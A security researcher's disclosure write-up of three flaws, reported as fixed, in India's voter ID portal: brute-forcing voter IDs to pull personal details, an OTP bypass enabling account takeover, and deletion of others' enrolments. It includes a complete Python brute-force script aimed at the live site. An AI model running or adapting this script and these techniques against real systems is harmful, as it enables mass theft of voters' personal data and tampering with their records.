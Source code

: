 ```yaml
---
layout: post
title: Exposing Millions of Voter ID card users’ details.
date: 2022-07-07
summary: Three critical bugs in India's voter portal led to the exposure of voter ID card users' data, impacting millions of individuals.
categories: VDP
tags: [IDOR, ATO]
---
```




![](https://cdn-images-1.medium.com/max/2000/1*Ux1ZHBkg1R1Gfhjwe1U7fw.png)



*Hi, Everyone. hope you’re well. I’m [Aziz](https://twitter.com/nxtexploit). Through this write-up, I will share some security issues I’ve found on the official Voter ID card maintaining platform [http://nvsp.in](https://nvsp.in). I was filling out a correction form for my mom’s card, I’m not really interested in finding bugs on gov websites :`) that moment [burpsuite ](https://portswigger.net/burp/documentation/desktop/penetration-testing)was running in the background and I thought let's have a try. After spending half an hour I found some critical issues that I’m going to share. All these issues are already fixed by the government.*

In India, a [Voter ID](https://www.google.com/search?q=what+is+voter+ID+%28india%29) card is an identity document issued by the Election Commission of India to adult domiciles of India who have reached the age of 18, which primarily serves as an identity proof for Indian citizens while casting their ballot in the country’s municipal, state, and national elections. More than **780 million** Voter IDs are active at present.

* ## **Bruteforcing valid Voter IDs and extracting details (IDOR / BOLA)**

While registering a new account it shows two options “I have ``EPIC`` number” and “I don’t have `EPIC` number”. `EPIC` stands for Electors Photo Identification Card and the `EPIC` number is nothing but Voter ID no. If we chose we don’t have a Voter ID number then they will give you an option to add after registering on the portal. After registration, I tried to add any random `EPIC` no. with my account but it show it's not valid. So I sent that HTTP request to burp intruder for [brute-forcing](https://en.wikipedia.org/wiki/Brute-force_attack).

![](https://cdn-images-1.medium.com/max/2728/1*SKG6_nhMm0PkRkRXJjK2yg.png)

A Voter ID also known as `EPIC` number is an alphanumerical ID, it contains three Alphabets at starting and seven numbers i.e. `WRI2345678`, `RDH2345678`, `DTN2345678`, `YCV2345678`, `NLN2345678`, `XMB2345678`, etc. These three alphabets are Not random alphabets, you can find similar IDs with similar these three alphabets in beginning but the rest seven digits are different.

![](https://cdn-images-1.medium.com/max/2000/1*oCiejaOMRmwdEpIRzi27PQ.png)

I added the payload position on these seven-digit numbers on `Epic_no=` parameter i.e `Epic_no=WRI$2345678$`  (as you can see in the below screenshot.)

![Adding payload position](https://cdn-images-1.medium.com/max/2236/1*xz61EAZwEhSWlsDpMkJSSw.png)

Surprisingly there is no limitation implemented in the backend and I was able to send **unlimited requests** without getting blocked by firewall. As a result backend server responding 302 redirections for every valid voter ID. (As shown in the screenshot below)

![responding 302 for every valid voter ID](https://cdn-images-1.medium.com/max/2740/1*dLe_eyFiPf9amQz0o50meQ.png)

Then I wrote a [python script](https://github.com/nxtexploit/Voter-ID-bruteforcer/blob/main/Voter-ID-bruteforcer.py) that will brute force the values and give output all valid voter_IDs for me.

![](https://cdn-images-1.medium.com/max/2000/1*DA8ghQIWnJlNZty0OK6oEA.gif)

```python

import urllib3
import requests
import time
from termcolor import colored
urllib3.disable_warnings()
start = time.perf_counter() 

cookies = {
    'nvsp': '4e565XXXXX',
    'cookiesession1': '678B286C164561FFEFXXXXXXXXXXX',
    'nvsp': '4e56XXXXX',
    'nvspid': 'ycnpiabqfasdf0asdf09ad',
    '__RequestVerificationToken': 'taDxPTIR3vxuyduujVCoi5eJdSlsAv1X0MQea7VYvLf6ksNDNsK7BkQZbNLSKagASDFpouasdfuopasfcsCmlofM6tTlC1opGS9FBEjYYXxC-z9ze73zdtEjUXtq9JfGVDfsXwt3WmQ925gSsbUw2',
    '.ASPXAUTH': '53BDCF7905E361CB6ECE80B77506A1A4A54DFS6546A5DF787AS8DFB2B9CE6874FDE524BF7BAE0DDC59329705AB29D49A148B4494341EC7634C13DB69FA25425DCA10CAADA3A10B025D58D8220E842959F0C650A8DF39B43039354B537BCE61AFB4922B99E22F20DC099C0DE9BC2CA53D1A37F387867855DDE5D89583B2F5F95D898A',
}

headers = {
    'Host': 'www.nvsp.in',
    'Cache-Control': 'max-age=0',
    'Sec-Ch-Ua': '".Not/A)Brand";v="99", "Google Chrome";v="103", "Chromium";v="103"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'https://www.nvsp.in',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    'Referer': 'https://www.nvsp.in/Account/MyProfile',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'close',
}


for voter_ID in range(2000000,2999999,1):


    data = '__RequestVerificationToken=dayrB-CCldwVYHXi7OE8b455jM3jLXRIdlHGQ5Wf4XyFE_7jjo1X3VfmkC4ZanqFO6h0XtveuAmSk1SIWWmV-SbA7nTUIJNKAfyRoiG43FvEAlDPi5VfkJWpGn9sV8IuFuBezLnC-tZSYFGqrRbECXgqlxpSduENgqaWy7oWQK01&OTP=&UserId=UQH34XXXXXXXX&firstName=Aziz&lastName=&Email=XXXXXXXX%40gmaill.com&Epic_no=WRI'+str(voter_ID)+'&PhoneNumber=XXXXXXXX87&st_code=S25&ac_no=55&PART_NO=42&Captcha=&Code='

    response = requests.post('https://www.nvsp.in/Account/MyProfile',allow_redirects=False, cookies=cookies, headers=headers, data=data, verify=False)

    if response.status_code == 302:
        print(f"Epic-ID FOUND = "+colored("WRI"+str(voter_ID),'green'))
    elif response.status_code == 200:
        print(colored("Not valid ID",'yellow'))
    else:
        print(colored("Session Expired ",'red')+"(response code = "+colored(str(response.status_code),'yellow')+")")

finish = time.perf_counter()

print(f'\n\nFinished in {round(finish-start, 2)} second(s)\n')

```

Now I have valid Voter IDs of random persons then, I added these IDs with my profile under “[/Account/MyProfile](https://www.nvsp.in/Account/MyProfile)”. Then there is an option under the “/[forms](https://www.nvsp.in/Forms)/”section which is **form001** and this form is already filled with **Name, father’s name, address, Date of birth, etc. **according to that valid EPIC ID added to my profile.

![**Extracted details of a random Person**](https://cdn-images-1.medium.com/max/2732/1*6izoRB4cWjN5zjdZTDYdJg.png)

* ## **Account takeover (OTP bypass)**

On the profile details updating section I was trying to add another user's number. So I created another account for it. But there was an OTP implanted there, and I tried to brute-force it but it didn’t work :( I remember reading an article last year, you can read it **[here](https://infosecwriteups.com/how-i-hacked-into-indias-top-matrimonial-website-and-earned-amazon-gift-card-worth-10k-inr-2a0b376219fa)**, where the author just added 0 after intercepting the request. And I did the same thing here on OTP parameter and it worked :)

![intercepting traffic while OTP is verifying](https://cdn-images-1.medium.com/max/2740/1*q0TSMqdgsXTtzROWDo6y9g.png)

![[Changed the OTP value to zero](https://infosecwriteups.com/how-i-hacked-into-indias-top-matrimonial-website-and-earned-amazon-gift-card-worth-10k-inr-2a0b376219fa)](https://cdn-images-1.medium.com/max/2000/1*eEVjGxhUUzdbv2vkHlExnw.png)

After bypassing I thought it just can register the victim’s number then I’ll reset the password, But surprisingly on replacing the victim’s number my profile data automatically changed with the victim’s details, And I can own his account.

![](https://cdn-images-1.medium.com/max/2740/1*az1-jwdyMLK1pOLWbA6ghA.png)

* ## **Delete/remove any random user’s Voter ID card Permanently (Logic flaw)**

From the 1st bug, we can get and add any random user’s Voter ID to our account, From that on the home page there is an option for “Deletion of Enrolment”. And nothing to be needed after an attacker added any random Voter ID on his profile section. then he can easily delete any random user’s Voter ID permanently.

![An attacker can delete any random user’s card permanently](https://cdn-images-1.medium.com/max/2732/1*SvvI8ZoSelvF3-83BzQRTw.png)

I reported these three issues to [vdisclose@cert-in.org.in](https://www.cert-in.org.in/VulnerIncident.jsp) and they fixed these issues.

I hope you liked this article, If you have any questions then you can dm me on Twitter: [https://twitter.com/nxtexploit](https://twitter.com/nxtexploit)

Thanks for reading,

regards,

**Aziz**
